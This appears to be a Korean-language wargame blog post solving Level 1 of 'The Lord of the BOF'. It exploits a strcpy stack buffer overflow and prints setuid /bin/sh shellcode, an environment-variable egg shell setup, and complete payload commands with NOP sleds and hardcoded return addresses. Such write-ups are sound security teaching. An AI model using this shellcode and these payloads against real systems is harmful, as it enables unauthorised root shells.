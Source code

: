 ```yaml
---
layout: post
title: "The Lord of the BOF - Level 1"
comments: true
categories: [LOB]
tags: [LOB]
---
```

<img data-action="zoom" src='{{ "assets/lob/level1/1.jpg" | relative_url }}' alt='relative'>  

## 1) gate/gate 입력하여 로그인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/2.png" | relative_url }}' alt='relative'>  

코드 내용을 보니 argv가 2보다 작은지 조건 검사를 하기 때문에 프로그램 실행 시 인자를 넣어줘야 합니다.  
argv[1]에 입력한 내용을 buffer 배열에 입력하는 데 strcpy 함수를 사용하여 취약점이 생겼습니다.  
입력받는 문자열 길이에 제한을 두지 않아 buffer 배열의 길이인 256 바이트 이상의 문자열을 입력할 수 있습니다.  

## 2) BOF 전처리 과정    

### (0) gremlin 스택 구조 확인하기  

<img data-action="zoom" src='{{ "assets/lob/level1/3.png" | relative_url }}' alt='relative'>  

``` bash
0x804845f <main+47>:    lea    %eax,[%ebp-256]
0x8048465 <main+53>:    push   %eax
0x8048466 <main+54>:    call   0x8048370 <strcpy>
```

위의 어셈블리어 코드를 보니 buffer 배열의 위치가 ebp 레지스터에서 256 바이트 떨어진 주소에 위치합니다.  
그러면 RET이 위치한 주소는 문자열 배열 시작 주소에서 256(buffer) byte + 4(SFP) byte에 위치합니다.  

### (1) Eggshell  

FTZ 문제를 풀었다면 이 문제는 쉽게 해결할 수 있습니다.  
- <a href="https://hsong2.github.io/ftz/2021/05/24/Hacker-School-FTZ-Shellcode.html">쉘코드 만드는 방법</a>  
- <a href="https://hsong2.github.io/ftz/2021/05/31/Hacker-School-FTZ-Level-12.html#env">환경변수에 쉘코드 저장</a>  

위의 내용을 참고하여 쉘코드를 환경변수에 저장하였습니다.  

``` bash
// Shellcode (setuid 포함, 39 byte)
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

// Shellcode (setuid 미포함, 25 byte)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

``` bash
./getenv
```

<img data-action="zoom" src='{{ "assets/lob/level1/4.png" | relative_url }}' alt='relative'>  

RET 위치에 쉘코드가 저장된 환경변수의 주소를 넣어주면 됩니다.  

Eggshell 방식을 사용했을 때 공격 페이로드는 다음과 같습니다. (마지막 환경변수 주소는 본인에 맞게 수정하세요.)  

``` bash
./gremlin `python -c 'print "\x90"*260+"\xab\xfd\xff\xbf"'`
```

### (2) buffer 배열에 shellcode 입력  

buffer 배열에 쉘코드를 입력하고 RET에 buffer 배열의 주소를 입력하면 됩니다.  

우선 gdb로 프로그램을 실행해보기 위해 새로운 프로그램 하나를 만들었습니다.  

```bash
gcc -o test gremlin.c
```

0x8048466 <main+54> 이 주소에 break를 걸고 test 프로그램을 gdb로 실행하였습니다.  
그리고 break가 걸려있을 때 레지스터 정보를 확인하였습니다.  

``` bash
gdb -q ./test

set disassembly-flavor intel

b *main+54

r `python -c 'print "\x90"*200+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*31+"AAAA"'`

info registers
```

gdb로 test 프로그램을 2번 실행해봤는데 ebp 레지스터의 값은 두번 다 동일하였습니다.  
프로그램 실행할 때마다 스택 메모리 주소가 바뀌는 BOF 보호 기법이 적용되지 않았습니다.   

<img data-action="zoom" src='{{ "assets/lob/level1/5.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/lob/level1/6.png" | relative_url }}' alt='relative'>  

프로그램 실행 시마다 메모리에 프로세스가 배치될 위치가 랜덤으로 정해지는 ASLR(Address space layout randomization) 기법이 적용되지 않았습니다.  
스택 메모리 주소가 바뀌지 않는다면 buffer 배열의 주소는 ebp 레지스터에 저장된 주소 값에 256을 뺀 0xbffff928 입니다.  
0xbffffa28 - 0x100(=256) = 0xbffff928

<img data-action="zoom" src='{{ "assets/lob/level1/7.png" | relative_url }}' alt='relative'>  

buffer 배열에 shellcode를 입력하는 방식을 사용했을 때 공격 페이로드는 다음과 같습니다.  

``` bash
./gremlin `python -c 'print "\x90"*200+"\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*21+"\x28\xf9\xff\xbf"'`
```

## 3) BOF 시도  

### (1) Eggshell 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/8.png" | relative_url }}' alt='relative'>  

### (2) buffer 배열에 shellcode 입력 방식 결과  

<img data-action="zoom" src='{{ "assets/lob/level1/9.png" | relative_url }}' alt='relative'>  

## 4) 공격 페이로드를 정확히 입력했는데도 공격이 성공하지 않는 경우!!!  

bash2 쉘로 실행하면 수행됩니다.  

``` bash
bash2
```

<img data-action="zoom" src='{{ "assets/lob/level1/10.png" | relative_url }}' alt='relative'>  